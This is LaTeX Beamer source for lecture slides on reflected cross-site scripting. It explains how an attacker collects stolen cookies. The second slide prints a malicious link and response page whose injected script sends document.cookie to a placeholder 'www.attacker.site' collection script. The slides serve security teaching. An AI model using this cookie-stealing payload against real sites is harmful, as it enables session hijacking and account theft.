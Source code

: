\documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Cross-Site Scripting (XSS) }
  \begin{itemize}\itemsep=1.5ex
  \item A real attack would send these cookies to the attacker.
  \item For this, the attacker may erect a web site
    (\url{www.attacker.site}), and use a script to receive the
    cookies.
  \item Instead of popping up a window, the attacker would write code
    that accesses a URL at his/her own site (\url{www.attacker.site}),
    invoking a cookie reception script with a parameter being the
    stolen cookies.
  \item This way, the attacker can get the cookies from the
    \url{www.attacker.site} server.
  \end{itemize}
\end{frame}  

\begin{frame}[fragile]
  \frametitle{Cross-Site Scripting (XSS) }
\begin{itemize}
\item The malicious link would be:
\begin{small}
\begin{lstlisting}[style=htmlCode]
http://www.vulnerable.site/welcome.php?
  name=@<script>window.open(
                   "http://www.attacker.site/collect.php?cookie="
                    %2Bdocument.cookie)
        </script>@
\end{lstlisting}
\end{small}
\item And the response page would look like:
\begin{lstlisting}[style=htmlCode]
<HTML>
<Title>Welcome!</Title>
Hi
@<script>
 window.open(
  "http://www.attacker.site/collect.php?cookie="
  +document.cookie)
</script>@
<BR>
Welcome to our system
...
</HTML>
\end{lstlisting}
\end{itemize}
\end{frame}
\end{document}

